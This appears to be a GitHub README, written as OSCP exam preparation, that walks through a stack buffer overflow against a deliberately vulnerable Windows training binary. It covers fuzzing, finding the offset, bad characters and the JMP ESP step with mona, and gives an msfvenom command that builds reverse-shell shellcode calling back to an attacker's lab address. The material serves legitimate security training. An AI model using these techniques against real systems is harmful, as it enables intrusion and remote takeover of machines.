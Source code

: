 # OSCP Buffer Overflow 

In this we will use `dostackbufferoverflowgod` as a vulnerable application in our exploration process (more info here: https://github.com/justinsteven/dostackbufferoverflowgood).

The binary can be downloaded here: https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood.exe

Below are the download links for all the tools needed for the study:

- Windows 7 Evaluation: https://gist.github.com/anonymous/c644cac9d77e2793742c13cf10d26cb8 (you can run on Windows 10 too)
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Mona.py: https://github.com/corelan/mona

All installation processes are described in the links above.


## Fuzzing

We will run the `connect.py` script to verify the application's response.

After this step, we will run the `fuzzing.py` script to identify the point that the application will crash. But before that, on your Windows, attach the application to the Immunity Debugger.

Change the amount of "A" in the script until the application broken.


## Offset

After finding the crash point of the application, we will identify the offset to the EIP address. For this we will generate a string with the pattern_create, from the MSF suite

```
msf-pattern_create -l 1024
```

Copy the EIP address into the Immunity Debugger and use the pattern_offset to identify this address

```
msf-pattern_offset -q 39654138
```

Now we can run `poc.py` and verify that our EIP has been overwritten with the character "B" (42 in hexadecimal)


## Badchars

To identify badchars we will use mona with the option `!mona bytearray`.

Insert the mona output in the `badchars.py` script and run against the application to identify the badchars.


There are many ways to carry out the badchar identification process (even mona has modules for that), but the most accurate way is visually. Follow the ASCII string in the Immunity Debugger and see what points this string crashed or skipped over.


## JMP ESP

After knowing the badchars of the application, we will identify the JMP ESP that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack.

The OPCODE for JMP ESP is `\xff\xe4` (in assembly). Using mona we will locate which register in the application that points to this OPCODE and so we can change the flow of the application to run our shellcode, rewriting the stack from its base (EBP).

Run `!mona modules` and identify the unprotected modules.

Run `!mona find -s "\xff\xe4"` to identify which of these pointers have the OPCODE for JMP ESP

Run `!mona jmp -r esp -cpb "\x00\x0a"` to identify which pointers do not have the badchars found.

By this point you may have already found the correct JMP ESP address. However, if you want to check, run `!mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe` directly on the identified vulnerable module.

At this point you will have the base address of the stack or return address (EBP). We need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion:

```
0x080416BF  <->  "\xBF\x16\x04\x08"
```
 
 
 ## Exploit time
 
 We can now generate our shellcode excluding the badchars found:
 
 ```
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
 ```
 
 The `EXITFUNC=thread` option prevents the shellcode from crashing the application when executing our shellcode.
 
 Now just insert the msfvenom output in our `exploit.py` and run it against our application to gain access to the system exploiting the Buffer Overflow


